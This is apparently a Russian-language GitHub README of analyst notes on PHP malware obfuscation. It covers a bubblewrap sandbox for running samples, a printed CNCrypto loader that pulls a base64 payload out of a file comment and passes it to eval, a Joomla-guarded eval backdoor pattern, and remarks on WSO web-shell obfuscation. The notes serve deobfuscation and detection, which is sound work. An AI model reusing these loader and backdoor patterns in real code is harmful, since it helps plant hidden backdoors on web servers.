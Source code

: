 ### что это? 

Здесь, со временем, будут появляться некоторые способы обфускации/затруднение "обратной разработки" кода на PHP с примерами, которые встретились мне в рамках каких-то проектов.

Список не претендует на полную картину мира в этой области - это просто мои заметки, на которые хватило времени.

---

##	0. Песочница для Ваших тестов (bubblewrap)

Использование:
```shell
mkdir bwrap_data && cp evil.php bwrap_data/
bwrap --ro-bind ./bwrap_data/ /bwrap_data --ro-bind /bin /bin --ro-bind /lib /lib --ro-bind /lib64 /lib64 --unshare-all php7.3 /bwrap_data/evil.php
```

Из-за `--unshare-all` нельзя получить [почти все namespaces](https://github.com/containers/bubblewrap#sandboxing) из песочницы, а не только pids, как в примере на странице проекта 

Установка:
```shell
git clone https://github.com/containers/bubblewrap
sudo apt install build-essential autoconf automake libcap-dev php7.3-common php7.3-cli
autogen.sh
configure
make
```

---

##  1. Полезная нагрузка в комменте

[Пример - CNCrypto](/images/php_obf/1.png)

Оригинал без base64 (не привожу остальной код для экономии места - он и так виден на скрине):

```php
$_000O=Array();for ($_0OOO=97;$_0OOO<123;$_0OOO++) $_000O[]=chr($_0OOO);for ($_0OOO=65;$_0OOO<91;$_0OOO++) $_000O[]=chr($_0OOO);$_0000=implode("",$_000O);$_OO0=fopen($_0OO,"rb");fseek($_OO0,$_O0O,SEEK_SET);$_000=fread($_OO0,$_OOO);fclose($_OO0);$_00OO="/*CNS".str_pad($_O0O,6,STR_PAD_LEFT,"0");$_0O0=strpos($_000,$_00OO);$_00O=substr($_000,$_0O0+11,52);$_000=substr($_000,$_0O0+63,strpos($_000,"*/",$_0O0+63)-$_0O0-63);$_000=base64_decode(strtr($_000,$_0000,$_00O));eval($_000);
```

Меняем eval на echo и выполняем в песочнице для получения payload

---

## 2. Частичная обфускация (wso)

[Пример](/images/php_obf/2-1.png)

Видимо, отсутствие компетенции/навыков программирования толкает блэков на подобное (см. пример)

Импакт? Никакого, всё так же продолжаем юзать статический анализ.

Исключение: нужно использовать несколько паттернов, так как встречаются и вот такие поделки: [Пример](/images/php_obf/2-2.png) (смотри внимательно на переменную "default_action" и сравни с прошлым, из этого же блока текста)

---

## 3. Проверка на существование специфических констант
Защита от автоматических инструментов, основанных на песочницах (unphp, например): выполнение не доходит до unpack base64/etc и деобфускации не происходит - подойдет как защита, если анализирующий не понимает синтаксиса php.

Встреченные бекдоры работают по разному для разных CMS - вот случай с joomla:

```php
<?
defined('_JEXEC') or die(':)');
// eval(base64_decode(payload
?>
``` 

